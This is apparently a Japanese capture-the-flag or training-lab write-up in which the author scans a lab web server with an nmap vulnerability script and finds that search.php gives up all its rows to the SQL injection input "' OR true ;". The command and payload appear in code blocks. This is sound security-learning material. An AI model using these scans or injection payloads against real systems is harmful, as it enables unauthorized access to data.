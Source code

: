 ## ログインするためには、ユーザ名とパスワードが必要です。そのため、次はユーザ名とパスワードを取得したいと考え、他に利用できそうなページがないかを調査します。利用可能な脆弱性が存在するページのファイル名(*.php)、およびそのページに存在する脆弱性を解答してください。
  
`nse`使えるかな？  
  
```bash
┌──(kali㉿kali)-[~]
└─$ nmap --script=vuln -p 80 172.20.15.28
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-06 10:25 JST
Nmap scan report for 172.20.15.28
Host is up (0.017s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=172.20.15.28
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://172.20.15.28:80/search.php
|     Form id: 
|_    Form action: search.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /admin_login.php: Possible admin folder
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-cookie-flags: 
|   /admin_login.php: 
|     PHPSESSID: 
|_      httponly flag not set

Nmap done: 1 IP address (1 host up) scanned in 33.16 seconds

```
  
おっ！何かおったぞ  `search.php`
ブラウザで見てみる  
  
```bash
Search Resort

Search keyword example: Honolulu
name	Description	Image
```
  
つか、よく`github`で`Readme`に画像貼り付けてる人いたからいけるもんだと思ってたら、うまくいかない  
こんなとこで時間費やしてる場合じゃないので、見にくいけど先進むことにした。  
↑の感じの検索フィールドがあるサイトに飛べたので、`SQLinjection`か？と思い、取りあえず投げてみる  
  
```bash
Search Resort
' OR true ;
Search keyword example: Honolulu
name	Description	Image
Republic of Maldives 	The Maldives is a tropical country in the Indian Ocean with over 	place
Republic of Maldives 	The Maldives is a tropical country in the Indian Ocean with over 1,000 coral islands and 26 atolls, known for its beaches, blue lagoons and abundant coral reefs. 	Maldives
Da Nang City 	Da Nang is a seaside city in central Vietnam known for its sandy beaches and French colonial harbor history. It is also a popular base for visiting the resort town of Bana Hills, which is located inland in the western part of the city. 	DaNang
Honolulu 	Honolulu is the capital of the state of Hawaii in the United States, located on the southern coast of Oahu, and is the gateway to the Hawaiian Islands.

```
  
よく覚えてなかったけど、取りあえずクエリを`true`にできればいいっしょ！ってことでOK！

## コマンド
```bash
nmap --script=vuln -p 80 172.20.15.28

----------------------------------
SQLinjection -> `' OR true ;

```

## フラグ
`search.php:sqlinjection`
  
SQL構文おぼえなきゃなぁ  
  
  

